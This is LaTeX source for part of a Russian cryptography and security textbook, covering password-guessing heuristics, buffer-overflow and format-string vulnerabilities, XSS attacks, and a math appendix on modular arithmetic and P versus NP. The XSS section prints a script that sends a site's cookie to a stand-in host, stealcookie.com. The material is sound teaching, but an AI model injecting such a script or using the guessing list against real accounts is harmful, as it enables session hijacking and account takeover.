			\item без пароля вообще;
			\item имя аккаунта в качестве пароля;
			\item имя аккаунта в качестве пароля, повторённое дважды;
			\item использование <<ника>> (\langen{nickname});
			\item фамилия (\langen{last name, family name});
			\item фамилия, записанная задом наперёд;
		\end{itemize}
		\item перебор паролей на основе встроенного словаря из 432 слов;
		\item перебор паролей на основе системного словаря \texttt{/usr/dict/words}.
\end{itemize}

\emph{Программной уязвимостью}\index{программная уязвимость} называется свойство программы, позволяющее нарушить её работу. Программные уязвимости могут приводить к отказу в обслуживании (Denial of Service, DoS-атака)\index{атака!отказ в обслуживании}, утечке и изменению данных, появлению и распространению вирусов и червей.

Одной из распространённых атак для заражения персональных компьютеров является переполнение буфера в стеке. В интернет-сервисах наиболее распространённой программной уязвимостью в настоящее время является межсайтовый скриптинг (Cross-Site Scripting, XSS-атака)\index{атака!XSS}.

Наиболее распространённые программные уязвимости можно разделить на классы:
\begin{enumerate}
    \item Переполнение буфера -- копирование в буфер данных большего размера, чем длина выделенного буфера. Буфером может быть контейнер текстовой строки, массив, динамически выделяемая память и~т.\,д. Переполнение становится возможным вследствие либо отсутствия контроля над длиной копируемых данных, либо из-за ошибок в коде. Типичная ошибка -- разница в 1 байт между размерами буфера и данных при сравнении.
    \item Некорректная обработка (парсинг) данных, введённых пользователем, является причиной большинства программных уязвимостей в веб-приложениях. Под обработкой понимаются:
        \begin{enumerate}
            \item проверка на допустимые значения и тип (числовые поля не должны содержать строки и~т.\,д.);
            \item фильтрация и экранирование специальных символов, имеющих значения в скриптовых языках или применяющихся для перекодирования из одной текстовой кодировки в другую. Примеры символов: \texttt{\textbackslash}, \texttt{\%}, \texttt{<}, \texttt{>}, \texttt{"}, \texttt{'};
            \item фильтрация ключевых слов языков разметки и скриптов. Примеры: \texttt{script}, \texttt{JavaScript};
            \item перекодирование различными кодировками при парсинге. Распространённый способ обхода системы контроля парсинга данных состоит в однократном или множественном последовательном кодировании текстовых данных в шестнадцатеричные кодировки \texttt{\%NN} ASCII и UTF-8. Например, браузер или веб-приложения производят $n$-кратное перекодирование, в то время как система контроля делает $k$-кратное перекодирование, $0 \leq k < n$, и, следовательно, пропускает закодированные запрещённые символы и слова.
        \end{enumerate}
    \item Некорректное использование функций. Например, \texttt{printf(s)} может привести к уязвимости записи в память по указанному адресу. Если злоумышленник вместо обычной текстовой строки введёт в качестве \texttt{s "текст некоторой длины\%n"}, то функция \texttt{printf}, ожидающая первым аргументом строку формата \texttt{fmt}, обнаружив \texttt{\%n}, возьмёт значение из ячеек памяти, находящихся перед ячейками с указателем на текстовую строку (устройство стека описано далее), и запишет в память по адресу, равному считанному значению, количество выведенных символов на печать функцией \texttt{printf}.
\end{enumerate}


\input{stack_overflow}

\section{Межсайтовый скриптинг}\index{атака!XSS}
\selectlanguage{russian}

Другой вид распространённых программных уязвимостей состоит в некорректной обработке данных, введённых пользователем. Типичные примеры: отсутствующее или неправильное экранирование специальных символов и полей (спецсимволы \texttt{<} и \texttt{>} HTML, кавычки, слэши \texttt{/}, \texttt{\textbackslash}) и отсутствующая или неправильная проверка введённых данных на допустимые значения (SQL-запрос к базе данных веб-ресурса вместо логина пользователя).

Межсайтовый скриптинг (\langen{Cross-Site Scripting, XSS}) заключается во внедрении в веб-страницу злоумышленником $A$ исполняемого текстового скрипта, который будет исполнен браузером клиента $B$. Скрипт может быть написан на языках JavaScript, VBScript, ActiveX, HTML, Flash. Целью атаки является, как правило, доступ к информации клиента.

Скрипт может получить доступ к cookie-файлам данного сайта, например с аутентификатором, вставить гиперссылки на свой сайт под видом доверенных ссылок. Вставленные гиперссылки могут содержать информацию пользователя.

Скрипт также может выполнить последовательность HTTP GET- и POST-запросов на веб-сайт для выполнения действий от имени пользователя. Например вирусно распространить вредоносный JavaScript код со страницы одного пользователя на страницы всех друзей, друзей друзей и~т.\,д., а затем удалить все данные пользователя. Атака может привести к уничтожению социальной сети.

Приведём пример кражи cookie-файла веб-сайта, который имеет уязвимость на вставку текста, содержащего исполняемый браузером код.

%Когда браузер первый раз обращается к сайту, веб-приложение может выслать вместе с HTML страницей cookie-файл, хранящий текстовую строку последовательностей

Пусть аутентификатор пользователя в cookie-файле сайта \texttt{myemail.com} содержит
\begin{center} \begin{verbatim}
auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

Пусть текстовое сообщение, размещённое пользователем, содержит скрипт, помещающий на странице <<изображение>>, расположенное по некоему адресу
\begin{verbatim}
<script>
  new Image().src = "http://stealcookie.com?c=" +
    encodeURI(document.cookie);
</script>
\end{verbatim}

Тогда браузеры всех пользователей, которым показывается сообщение, при загрузке страницы отправят HTTP GET-запрос на получение файла <<изображения>> по адресу
\begin{center} \begin{verbatim}
http://stealcookie.com?auth=AJHVML43LDSL42SC6DF;
\end{verbatim} \end{center}

В результате злоумышленник получит cookie, используя который он сможет заходить на веб-сайт под видом пользователя.

Вставка гиперссылок является наиболее частой XSS-атакой. Иногда ссылки кодируются шестнадцатеричными числами вида \texttt{\%NN}, чтобы не вызывать сомнения у пользователя текстом ссылки.
%Браузер самостоятельно не может отослать данные на другой сайт, отличный от текущего, поэтому передаваемая информация содержится в гиперссылках.

%(например, JavaScript код), либо программным обеспечением, генерирующим HTML-страницу для выдачи клиенту $B$ (например, PHP код). Цель XSS атаки -- либо выполнение JavaScript кода браузером клиента, либо выполнение скриптового кода на веб-сервере при запросе клиента к нему.

%Простой пример -- веб-форум. Пользователи вводят в формы текстовые сообщения, которые запоминаются в БД и показываются другим пользователям. Страница форума генерируется каждый раз заново при запросе пользователей информационной системой. Генерирование часто происходит из шаблона страницы, который содержит и базовый статический HTML код страницы, и исполняемый код скрипта для вставки динамического содержания на основе запроса к базе данных. Как правило, злоумышленник пользуется во время генерирования страницы некорректным экранированием текста, введённого им в формах ввода текста веб-страницы, кавычек, слэшей. То есть, текстовые значения полей, которые сохраняются в базе данных веб-сайта и отображаются другим пользователям, содержат исполняемый код злоумышленника.

На 2009 г. 80\% обнаруженных уязвимостей веб-сайтов являются XSS-уязвимостями.

Стандартный способ защиты от XSS-атак заключается в фильтрации, замене, экранировании символов и слов введённого пользователем текста: \texttt{<}, \texttt{>}, \texttt{/}, \texttt{\textbackslash}, \texttt{"}, \texttt{'}, \texttt{(}, \texttt{)}, \texttt{script}, \texttt{javascript} и~др., а также в обработке кодировок символов.


\input{sql-injections}

%\chapter{Послесловие}
%Это должно быть что-то в виде заключения, объяснения, почему именно эти темы выбраны, насколько актуален материал с теоретической и практической точки зрения.


\appendix
\renewcommand{\thechapter}{\Asbuk{chapter}} % использование русских букв для нумерации приложений

\chapter{Математическое приложение}\label{chap:discrete-math}

\section{Общие определения}

Выражением $\Mod n$ обозначается вычисление остатка от деления произвольного целого числа на целое число $n$. В полиномиальной арифметике эта операция означает вычисление остатка от деления многочленов.
%далее будем обозначать целые числа или операции с целыми числами, взятыми \emph{по модулю}\index{модуль} целого числа $n$ (остаток от целочисленного деления). Примеры выражений:
    \[ a\mod n, \]
    \[ (a + b)\cdot c\mod n. \]
Равенство
    \[ a = b \mod n \]
означает, что выражения $a$ и $b$ равны (говорят также <<сравнимы>>, <<эквивалентны>>) по модулю $n$.

Множество
    \[ \{ 0, 1, 2, 3, \dots, n-1 \mod n\} \]
состоит из $n$ элементов, где каждый элемент $i$ представляет все целые числа, сравнимые с $i$ по модулю $n$.

Наибольший общий делитель (НОД) двух чисел $a,b$ обозначается $\gcd(a,b)$ (\textit{greatest common divisor}).

Два числа $a,b$ называются взаимно простыми, если они не имеют общих делителей, кроме 1, то есть $\gcd(a,b) = 1$.

Выражение $a \mid b$ означает, что $a$ делит $b$.

\input{birthdays_paradox}

\input{groups}

\input{aes_math}

\input{modular_ariphmetics}

\input{pseudo-primes}

\input{groups_of_ec_points_over_finite_fields}

\section[Полиномиальные и экспоненциальные алгоритмы]{Полиномиальные и \\ экспоненциальные алгоритмы}

Данный раздел поясняет обоснованность стойкости криптосистем с открытым ключом и имеет лишь косвенное отношение к дискретной математике.

Машина Тьюринга (МТ) (модель, представляющая любой вычислительный алгоритм) состоит из следующих частей:
\begin{itemize}
    \item неограниченная лента, разделённая на клетки; в каждой клетке содержится символ из конечного алфавита, содержащего пустой символ blank; если символ ранее не был записан на ленту, то он считается blank;
    \item печатающая головка, которая может считать, записать символ $a_i$ и передвинуть ленту на 1 клетку влево или вправо $d_k$;
    \item конечная таблица действий
    \[ (q_i, a_j) \rightarrow (q_{i1}, a_{j1}, d_k), \]
где $q$ -- состояние машины.
\end{itemize}

Если таблица переходов однозначна, то машина Тьюринга\index{машина Тьюринга} называется детерминированной. \emph{Детерминированная} машина Тьюринга может \emph{имитировать} любую существующую детерминированную ЭВМ. Если таблица переходов неоднозначна, то есть $(q_i, a_j)$ может переходить по нескольким правилам, то машина \emph{недетерминированная}.

Класс задач $\set{P}$ -- задачи, которые могут быть решены за \emph{полиномиальное} время\index{задача!полиномиальная} на \emph{детерминированной} машине Тьюринга. Пример полиномиальной сложности (количество битовых операций)
    \[ O(k^{\textrm{const}}), \]
где $k$ -- длина входных параметров алгоритма. Операция возведения в степень в модульной арифметике $a^b \mod n$ имеет кубическую сложность $O(k^3)$, где $k$ -- двоичная длина чисел $a,b,n$.

Класс задач $\set{NP}$ -- обобщение класса $\set{P} \subseteq \set{NP}$, включает задачи, которые могут быть решены за \emph{полиномиальное} время на \emph{недетерминированной} машине Тьюринга. Пример сложности задач из $\set{NP}$ -- экспоненциальная сложность\index{задача!экспоненциальная}
    \[ O(\textrm{const}^k). \]
Алгоритм Гельфонда решения задачи дискретного логарифмирования (нахождения $x$ для заданных основания $g$, модуля $p$ и $a = g^x \mod p$), описанный в разделе криптостойкости системы Эль-Гамаля\index{криптосистема!Эль-Гамаля}, имеет сложность $O(e^{k/2})$, где $k$ -- двоичная длина чисел.

В криптографии полиномиальные задачи (относящиеся к классу $\set{P}$) считаются \emph{лёгкими и вычислимыми} на ЭВМ, которые являются детерминированными машинами Тьюринга. Для них, по определению, существуют алгоритмы, работающие за время, полиномиальное относительно размера входных данных. Задачи, относящиеся к классу $\set{NP}$, считаются \emph{трудными и невычислимыми} на ЭВМ, так как все известные на сегодняшний день алгоритмы решения таких задач (в общем случае) требуют экспоненциального времени, а значит всегда можно выбрать такой размер входных данных (читай -- размер ключа шифрования), что время вычисления станет сравнимым с возрастом Вселенной.

Класс $\set{NP}$-полных задач -- подмножество задач из $\set{NP}$, для которых не известен полиномиальный алгоритм для детерминированной машины Тьюринга, и все задачи могут быть сведены друг к другу за полиномиальное время на \emph{детерминированной} машине Тьюринга. Например, задача об укладке рюкзака является $\set{NP}$-полной.

Стойкость криптосистем с \emph{открытым} ключом, как правило, основана на $\set{NP}$ или $\set{NP}$-полных задачах:
\begin{enumerate}
    \item RSA\index{криптосистема!RSA} -- $\set{NP}$-задача факторизации (строго говоря, основана на трудности извлечения корня степени $e$ по модулю $n$).
    \item Криптосистемы типа Эль-Гамаля\index{криптосистема!Эль-Гамаля} -- $\set{NP}$-задача дискретного логарифмирования.
\end{enumerate}

\emph{Нерешённой} проблемой является доказательство неравенства
    \[ \set{P} \neq \set{NP}. \]
Именно на гипотезе о том, что для некоторых задач не существует полиномиальных алгоритмов, и основана стойкость криптосистем с открытым ключом.

\input{coincide-index_method}

\input{tasks}

\printindex

\chapter*{Литература}
\addcontentsline{toc}{chapter}{Литература}
\begingroup
\renewcommand{\chapter}[2]{}%
%\bibliographystyle{ugost2008s}
%\bibliography{bibliography}
\printbibliography
\endgroup

\end{document}
